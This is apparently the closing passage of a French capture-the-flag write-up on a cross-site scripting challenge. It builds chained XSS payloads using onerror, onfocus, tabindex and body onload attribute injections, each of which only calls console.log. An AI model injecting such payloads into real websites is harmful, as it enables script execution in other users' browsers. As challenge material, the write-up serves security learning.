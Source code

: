 On termine avec la deuxième option évoquée:
```js
&quot; onerror=console.log(5) &quot;
```

### Focus sur le tag *<XSS>*

Pour activer la 4ème xss, il est nécessaire de déclencher le handler *onfocus*.  
On peut donc utiliser la 5ème XSS pour me réaliser.
On rajoute: ``document.getElementById(String.fromCharCode(120)).focus();``

# Payload Finale:
```js
data:,a=console.log(3)// id=x onfocus=console.log(4) tabindex=1 vozec='`}; console.log(2); //<img/src/onerror=console.log(1);>'&quot; onerror=console.log(5);document.getElementById(String.fromCharCode(120)).focus(); &quot;
```

# Upgrade:
J'ai par la suite upgrade ma payload de la sorte:
```js
data:,a=console.log(3)# onfocus='console.log(4)//<body onload=document.getElementById((false+String)[0]).focus();console.log(1);>`}; console.log(2);//'id=f tabindex=1 &quot; onerror=console.log(5);&quot;
```


![Alt text](./img/poc.png)
